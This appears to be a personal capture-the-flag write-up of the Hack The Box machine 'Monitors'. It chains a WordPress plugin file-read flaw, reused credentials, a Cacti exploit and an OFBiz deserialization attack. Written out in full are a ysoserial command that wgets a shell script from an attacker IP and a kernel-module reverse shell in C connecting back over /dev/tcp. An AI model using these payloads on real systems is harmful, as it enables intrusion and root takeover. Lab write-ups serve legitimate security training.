 ![[Pasted image 20250429231533.png]]
[[Nmap]] scan only report [[port 80]] and [[port 22]] opens, on port 80 we found web applications with [[Wordpress]], we use [[wpscan]] to enumerate that wordpress and found a plugin [[wp-with-spritz]]. Searching with [[searchsploit]] we found a vulnerability to can read local files [[Local File Inclusion (LFI)]] sending a parameter `url` to plugin

![[Pasted image 20250429232103.png]]

we can read the `/etc/passwd`.

with the next expression we can get only the port in hex format.

```bash
for port in $(curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/proc/net/tcp' | awk '{print $2}' | grep -v local | awk '{print $2}' FS=":" ); do echo "[+] Port $port: $(echo "obase=10; ibase=16; $port" | bc)"; done
```

![[Pasted image 20250429235651.png]]
we get that ports opens.

Major of worpress have a config file called `wp-config.php` where we can find something:

![[Pasted image 20250430000735.png]]

and yes, we get a credentials but are the [[MySQL]] database. Let's continue with enumeration.

[[whatweb]] reports the server are running a [[apache2]], and this have some config files interesting in the next paths:

`/etc/apache2/sites-enabled/000-default.conf`

![[Pasted image 20250430000247.png]]

And we get important information, focus on `cacti-admin.monitors.htb.conf`

Let's go there.

![[Pasted image 20250430000905.png]]

we find a admin panel, if we try with `MySQL` database

![[Pasted image 20250430001700.png]]

we in.

we can use [[searchsploit]] again to try find exploit targeting cacti version 1.2.12

![[Pasted image 20250430001805.png]]

![[Pasted image 20250430002338.png]]

and we get access.

on home directory of user `marcus` we found the flag but can't read it, we also find a hidden folder called `.backup`

![[Pasted image 20250430010852.png]]

where we can enter, but not read, we could read the files inside if we get the name right.

If we try search `marcus` user's stuff on each relevant directories starting with `/dev/`:

![[Pasted image 20250430011209.png]]

we look something interesting, the file `backup.sh`, so let's try read it.

![[Pasted image 20250430011300.png]]

we find another credentials.

if we try re use credentials to convert in `marcus` it's done.

![[Pasted image 20250430011616.png]]

we're `marcus`.

with [[netstat]] we can list open ports internally.

```bash
netstat -nat
```

![[Pasted image 20250430012145.png]]

port 8443 it's open. Let's apply a local port forwarding with [[ssh]] to get access to that in our machine.

On the web we not found nothing very interesting, if use [[ffuf]] to apply [[fuzzing]] we get some routes.

![[Pasted image 20250430013204.png]]

if test with `ecommerce` the web redirect us and display this:

![[Pasted image 20250430013434.png]]

Searching deeply by `apache ofbzsetup` we find this:

![[Pasted image 20250430013644.png]]

a deserialization exploit.

the exploit use the tool [[ysoserial]] to create a payload and get remote command execution. It must be taken in mind that in order to generate a payload we need to execute the app with the java jdk 15.

Lets generate the payload:

```bash
java -jar ysoserial-all.jar CommonsBeanutils1 "wget 10.10.16.2:8080/shell.sh -O /tmp/shell.sh" | base64 -w 0
```

before of this, remember have your `shell.sh` prepared and serving that on port `8080`

now, with [[curl]] send the next request:

```bash
curl -s https://localhost:8443/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload</serializable></value></member></struct></value></param></params></methodCall>" -k -H 'Content-Type:application/xml'
```

Once inside container we use [[linpeas.sh]] to enumerate possibles ways to jump host machine with root.

`linpeas.sh` reports says us the container have [[cap_sys_module]] capabilitie.

![[Pasted image 20250430032334.png]]
with [[capsh]] we can list that capabilitie:

![[Pasted image 20250430032528.png]]

so, to exploit this  capability we going to use a reverse shell in `c` language:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.2/9001 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

create a `makefile`:

```Makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

after we have this execute `make` and get a file `reverse-shell.ko`

Listen on port `9001` and pass the file to `insmod`:

![[Pasted image 20250430035217.png]]

and we get a connection as `root`.